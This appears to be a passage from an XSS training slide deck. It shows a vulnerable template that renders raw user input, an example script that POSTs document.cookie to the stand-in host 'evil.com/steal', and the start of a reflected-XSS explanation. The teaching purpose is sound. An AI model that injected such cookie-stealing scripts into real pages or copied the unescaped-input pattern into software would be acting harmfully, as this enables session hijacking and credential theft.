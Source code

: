 
---
layout: two-cols
---

# What is XSS?

Cross-Site Scripting (XSS) allows attackers to inject malicious scripts into web applications.

<v-clicks>

### The Risk
- Steal user credentials
- Hijack sessions
- Deface websites
- Redirect to malicious sites
- Access sensitive data

</v-clicks>

::right::

<div class="pl-8">

```html {all|2|3|all}
<!-- Vulnerable Code -->
<div>
  {userInput}
</div>

<!-- Attack Payload -->
<script>
  fetch('evil.com/steal', {
    method: 'POST',
    body: document.cookie
  });
</script>
```

</div>



---
layout: default
---

# Reflected XSS

Malicious script is reflected off the web server (usually in URL parameters)

<v-clicks>

### How It Works
1. Attacker crafts a malicious URL
2. Victim clicks the link
3. Server reflects the input back without sanitization
4. Browser executes the malicious script
